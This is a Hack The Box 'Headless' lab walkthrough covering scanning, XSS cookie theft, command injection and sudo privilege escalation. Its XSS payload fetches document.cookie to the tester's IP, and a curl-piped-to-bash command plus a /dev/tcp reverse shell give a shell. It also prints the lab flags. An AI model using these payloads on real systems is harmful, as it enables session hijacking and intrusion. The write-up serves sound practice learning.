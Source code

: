 ```yaml
---
title: Headless
date modified: Tuesday, May 14th 2024, 8:02:31 pm
---
```


## Enumeration

```Bash
nmap 10.10.11.8 -sC -sV -oN nmap-scan-headless.txt # Scan the default ports, look for version/service info and write it to a file.

nmap --help | grep -e "\-sC" -e "\-sV" -e "\-oN"  # This can be used to look up what commands do.
...SNIP...
  -sV: Probe open ports to determine service/version info
  -sC: equivalent to --script=default
  -oN/-oX/-oS/-oG <file>: Output scan in normal, XML, s|<rIpt kIddi3,
```

From our nmap scan we can see that the following ports are open:
- Port 22 - SSH
- Port 5000 - upnp?
	- This appears to be some kind of website, since it accepts an HTTP GET request.

Navigating to http://10.10.11.8:5000/ in our web browser gives us the following webpage:
![[Pasted image 20240513223819.png]]

We can then try to ask questions, which leads us to a form - maybe we can inject some malicious code? Makes sense to open this up in BURP or ZAP and look around for any vulnerabilities.

We can see an interesting cookie response, when we navigate to the root of the website:

```HTML
is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs; Path=/ 
```

There could maybe be an admin panel, then we can use this cookie to bypass the login? Lets start to fuzz the website:

```Bash
ffuf -w /usr/share/wfuzz/wordlist/general/big.txt -u http://10.10.11.8:5000/FUZZ -recursion -recursion-depth 1 -v

[Status: 200, Size: 2363, Words: 836, Lines: 93, Duration: 26ms]
| URL | http://10.10.11.8:5000/support
    * FUZZ: support

[Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 31ms]
| URL | http://10.10.11.8:5000/dashboard
    * FUZZ: dashboard

```

**When I'm Fuzzing use a BIG wordlist, to ensure you don't miss anything.**

Fuzzing doesn't return anything we don't already know. Looking back at the Nmap scan, we see that the HTTP server that is running the website is Werkzeug/2.2.2, is this vulnerable to anything?

The path forward is XSS and using the admin cookie to try access the dashboard area and get authenticated.

## Exploitation

Knowing that the website is vulnerable to XSS, we can try test for it:

``` HTML
<img src=x onerror=fetch('http://10.10.14.227/?c='+document.cookie);>
```

This is our payload and if we test it on the support forum:
![[Pasted image 20240514121230.png]]

This tells us that the website is vulnerable to XSS - as the cookie has been added to our request. We need to tailor this payload so that we can get the admin cookie.

Within Burp repeater we can modify the request, so that the cookie is sent to a HTTP server running on our machine:

```HTML
User-Agent: <img src=x onerror=fetch('http://10.10.14.227/?c='+document.cookie);>
...SNIP...
fname=a&lname=a&email=a%40a.com&phone=a&message=a;<img src=x onerror=fetch('http://10.10.14.227/?c='+document.cookie);>
```

After some waiting:
![[Pasted image 20240514124040.png]]

We have our admin cookie:
```Bash
is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
```

Now we can modify the cookie on the dashboard area to the admin cookie, so that we gain access to the dashboard. We can open browser tools, then change the cookie value to our admin value.

Now we have access to the dashboard:
![[Pasted image 20240514124258.png]]
## Foothold:

Even though we have access to this admin panel, the page doesn't do much. Better bring it into BURP and have a look at it.

We can't just open a netcat listener and get a reverse shell right away. We need to wrap it up within a curl command - this is likely because we can get user access through this date field, but not root.

We can use [Reverse Shell Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) to find reverse shells, in this case we want **Bash TCP/UDP**

```Bash
nc -lvnp 1234 # Start a letcat listener on our local machine.
bash -c 'bash -i >& /dev/tcp/10.10.14.227/1234 0>&1' # Our reverse shell command
python3 -m http.server # Start a HTTP server on our local machine to host the reverse shell
curl http://10.10.14.227/shell.sh|bash # insert this into the date field in the burp request
```

If we then send this request in burp:
![[Pasted image 20240514145229.png]]

and look back at our netcat listener:
![[Pasted image 20240514145525.png]]

We have user access.

## Privilege Escalation

Now our job is to find the user flag and to gain root.

**Finding the user flag:**
```Bash
dvir@headless:~$ ls
ls
app
geckodriver.log
user.txt

dvir@headless:~$ cat user.txt
70467ca2d62544d6ab2940f1e802938c
```

**Finding root flag:**
```Bash
sudo -l
...SNIP...
Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck

```

This tells us that we can run root commands within this *syscheck* binary. Within syscheck we have the initdb.sh, which we can change the file permissions of to gain root.
![[Pasted image 20240514152842.png]]
Then we need to spawn another bash shell:
![[Pasted image 20240514152855.png]]

Navigate to root, and you have to the root flag:
![[Pasted image 20240514152947.png]]

```
f999ca507da53e30f1adb34a090290a8
```
***

## Lessons Learned

1. When fuzzing pick large wordlists and leave them running in the background, you don't want to miss anything.
	1. directory-list-2.3.medium.txt
	2. small.txt                         
2. Whenever you have a forum, test it using an XSS payload to see if anything happens.
3. Be patient and careful when trying to upgrade from a web shell to a reverse shell.
4. Its OK to give it some time and come back later.
5. Resetting the machine generally won't fix your problems. But it never hurts to try it once or twice.

